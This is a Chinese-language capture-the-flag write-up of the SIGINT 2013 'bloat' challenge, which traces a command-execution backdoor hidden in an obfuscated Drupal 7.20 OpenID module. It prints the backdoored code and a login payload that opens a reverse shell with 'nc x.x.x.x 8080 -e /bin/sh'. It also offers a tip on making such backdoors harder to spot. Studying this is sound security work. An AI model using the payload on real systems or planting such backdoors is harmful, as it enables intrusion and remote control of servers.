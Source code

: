 ```yaml
---
title: SIGINT 2013 cloud200 bloat
author: slipper
layout: post
permalink: /sigint2013-cloud200-bloat/
categories:
  - Uncategorized
---
```

<http://slipper.tk/writeup/2013/07/09/sigint2013-cloud-bloat/>

# [SIGINT 2013 cloud 200 bloat][1]

Description

    My friend set up this site for me. I don't trust him.
    He installed a backdoor for sure. Can you find it?
    He just wrote me, what this system is using.
    Somehow it looks diff-erent o_O:
    

[cdd-7.20.tar_0.gz][2]

[source_code.tar.bz2][3]

这道题比赛的时候只有一个队伍做出来。虽然只有200分，但过程比较复杂。

我本来预期花一两个小时就能解决这个问题，结果却耗费了四个小时。

首先也是最关键的问题就是如何找到后门。

这个网站使用的是开源系统drupal 7.20，还附带了一些插件。但问题并不是直接diff那么简单。

官方的源码附有详细的注释，但修改版中将所有注释全部删掉了，还把代码风格从K&R风格改成了一种很混乱的样子，甚至将所有的变量名替换成了奇奇怪怪的东西。

手工查找人眼识别几乎是不可行的。必须想其它办法。

比赛的时候卡在其他题上面了，没有时间仔细看这道题。事后才想起来可以写一个文本处理器，把php文件全部“格式化”一遍：去掉注释+统一格式+统一变量命名。

[PHP_filter.cpp][4]

处理注释是最麻烦的一步，要判断引号和各种注释符，最终版本的代码也还有瑕疵。

因为只需要比对出文件的不同之处，所以不需要维护代码风格和变量名。为了统一，我把所有可能换行的`{};,:()`全都强行换行，又将所有变量名指定成了$000。

用这个非常挫的文本处理器半自动操作，效率已经比人眼识别提升很多，而且出错率降低很多。

但是将所有`.php`文件对比之后并没有什么收获。

再去查看源码中的文件，发现`.php`的文件其实并不多。很多插件都是以`.inc\.module`这样的后缀结尾的。

再扫描一遍`.inc`后缀的文件，果然发现有一个文件`./bloat/modules/openid/openid.inc`略有不同。

    10 define('OPENID_DH_DEFAULT_GEN', '86');
    

而原版中的openid是

    22 /**
    23  * Diffie-Hellman generator; used for Diffie-Hellman key exchange computations.
    24  */
    25 define('OPENID_DH_DEFAULT_GEN', '2');
    

这是跟用户认证有关的一个常量。修改这种值也许会造成认证系统的一些缺陷。

继续看代码，我有了更大的收获。

在`./bloat/modules/openid/openid.module`中代码逻辑与原版有明显的不同。

    197 function openid_login_validate($quench, &amp;$tickers)
    198    {
    199 $return_to = $tickers['values']['openid.return_to'];
    ...
    204   openid_begin($tickers['values']['openid_identifier'], $return_to, $tickers['values']);
    ... 
    207      function openid_begin($imaginably, $overlay = '', $termination = array())
    ...
    212       if(strpos($imaginably, '@'))
    213   {
    214    list($user, $host) = explode('@', $imaginably, 2);                                                                                                                                         
    215 }
    216 else
    217     {
    218      $user = false;
    219      $host = false;
    220      }
    

`214    list($user, $host) = explode('@', $imaginably, 2);`中`$imaginably`正是用户提交的认证用户名。

再来看看这些变量做了什么。

    248 $user_enc = _openid_dh_long_to_base64($user * OPENID_DH_DEFAULT_GEN);
    249     $service['uri'] = drupal_map_assoc(array($host), $user_enc);
    259   openid_redirect($service['uri'], $ramparts);
    

这里用到了修改过的常量`OPENID_DH_DEFAULT_GEN`。

drupal&#95;map&#95;assoc()返回的是数组，所以在redirect过程中会被强转成字符串&#8221;Array&#8221;，最后在跳转的时候会出错。

而这个[drupal&#95;map&#95;assoc()][5]则暗藏玄机。

根据官方文档，drupal&#95;map&#95;assoc()会把第一个参数$array中的每个参数依次传入第二个参数$callable执行并返回一个数组。

这里藏着一个命令执行后门啊。。。。

只要`is_callable($user_enc)`就能直接执行`$user_enc($host)`。

而`$user_enc`是从`$user * OPENID_DH_DEFAULT_GEN`解出来的。

因为`OPENID_DH_DEFAULT_GEN`的限制，所以这个`$user_enc`必须是按照base64解成整形之后能整除86（中间还有一些过程）。

现在要做的就是找一个合适的函数，恰好能满足这个条件了。

    slipper@NULL:~/CTF/SigintCTF2013/cloud/bloat/bloat/modules/openid$ php -a
    Interactive shell
    
    php &gt; include './openid.inc';
    php &gt; var_dump(is_callable('system'));
    bool(true)
    php &gt; var_dump(is_callable('systeM'));
    bool(true)
    php &gt; echo _openid_dh_base64_to_long('system')/OPENID_DH_DEFAULT_GEN ."\n";
    34952922.72093
    php &gt; echo _openid_dh_base64_to_long('System')/OPENID_DH_DEFAULT_GEN ."\n";
    14664196.395349
    php &gt; echo _openid_dh_base64_to_long('SYstem')/OPENID_DH_DEFAULT_GEN ."\n";
    14347185.046512
    php &gt; echo _openid_dh_base64_to_long('eval')/OPENID_DH_DEFAULT_GEN ."\n";
    93703.872093023
    php &gt; echo _openid_dh_base64_to_long('exec')/OPENID_DH_DEFAULT_GEN ."\n";
    93802
    

因为这里的is&#95;callable是不区分大小写的，本来我还以为后门作者刻意选择了大小写混用的函数名，本来差点要写程序暴搜的。还好偶然发现exec正好符合要求。^&#95;^

**如果以后要用这种方法做后门，记得一个有大因子的大小写混用的函数名哦。**

接下来就是命令执行了。

可是用`93802@echo a &gt; a`结果并没有生成文件a。似乎对网站的目录木有写权限。

如果要获取flag，必须要有传递信息的途径。

唯一能想到的方法就只有反连了。

幸运的是服务起的nc有-e选项，正好可以交互，不然还得一次一次地执行命令。

用`93802@nc x.x.x.x 8080 -e /bin/sh`反弹，本地用`nc -l 8080`监听。

    pwd
    /var/www
    ls -la ./
    total 7904
    drwxr-xr-x  9 root root    4096 Jul  5 01:23 .
    drwxr-xr-x 14 root root    4096 Jul  5 01:53 ..
    -rw-r--r--  1 root root   75028 Mar  7 17:26 CHANGELOG.txt
    -rw-r--r--  1 root root    1481 Mar  7 17:26 COPYRIGHT.txt
    ...
    -rw-r--r--  1 root root      34 Jul  5 01:01 ___F_L_A_G___
    ...
    cat ___F_L_A_G___
    not here, see /flag on filesystem
    cat /flag
    SIGINT_d4b0844c
    

看来果然是木有写权限～～

 [1]: http://slipper.tk/writeup/2013/07/09/sigint2013-cloud-bloat/
 [2]: https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/cloud/bloat/cdd-7.20.tar_0.gz
 [3]: https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/cloud/bloat/source_code.tar.bz2
 [4]: https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/cloud/bloat/filter.cpp
 [5]: https://api.drupal.org/api/drupal/includes%21common.inc/function/drupal_map_assoc/7
